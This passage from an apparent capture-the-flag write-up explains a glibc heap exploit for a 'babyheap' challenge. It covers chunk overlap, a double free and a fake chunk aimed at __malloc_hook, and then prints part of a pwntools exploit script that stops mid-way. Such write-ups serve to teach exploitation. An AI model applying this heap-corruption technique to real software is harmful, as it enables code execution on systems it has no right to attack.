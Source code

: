 ```
0x10:	chunk 1
0x60:	chunk 2
0x60:	chunk 4
0x60:	chunk 5 which directly overlaps with the next chunk
0x70:	chunk 0 which is at the same place in memory as chunk 5
```

After that we can just free chunks `5`, `4`, and `0` (we need it in that order for this to work), we would have effectively freed the same address twice. Proceeding that we can allocate three additional chunks of memory (all of size `0x60`) with the first one starting with the address of our fake chunk to `__malloc_hook` and we will get our fake chunk added to the free list. Proceeding that we can just allocate another chunk, and write to the `__malloc_hook`.

#### Exploit

Above I talked about the concepts of how the exploit works. Here is the actual code for the exploit:
```
#This exploit is based off of: https://twisted-fun.github.io/2018-05-24-RCTF18-PWN-317/

#Import pwntools
from pwn import *

#Establish the three functions needed to interface with the target
def alloc(size, content):
	target.recvuntil("choice: ")
	target.sendline('1')
	target.recvuntil("please input chunk size: ")
	target.sendline(str(size))
	target.recvuntil("input chunk content: ")
	target.sendline(content)

def show(index):
	target.recvuntil("choice: ")
	target.sendline('2')
	target.recvuntil("please input chunk index: ")	
	target.sendline(str(index))

def delete(index):
	target.recvuntil("choice: ")
	target.sendline('3')
	target.recvuntil("please input chunk index: ")
	target.sendline(str(index))

#Establish the target, enviornment, and the libc file associated
target = process('./babyheap', env={"LD_PRELOAD":"./libc.so.6"})
elf = ELF('./libc.so.6')
gdb.attach(target)

#Allocate the first four chunks
alloc(0xf0, '0'*0xf0)# Chunk 0
alloc(0x70, '1'*0x70)# Chunk 1
alloc(0xf0, '2'*0xf0)# Chunk 2
alloc(0x30, '3'*0x30)# Chunk3

#Free the first two chunks to setup for the overflow and chunk consolidation
delete(0)# Chunk 0 is now freed
delete(1)# Chunk 1 is now freed

#Allocate a new chunk where chunk 1 used to be, to overflow chunk 2's prev_size with 0x180 and prev in use bit to 0x0 to allow for the chunk consolidation
alloc(0x78, '4'*0x70 + p64(0x180))# Chunk 0

```
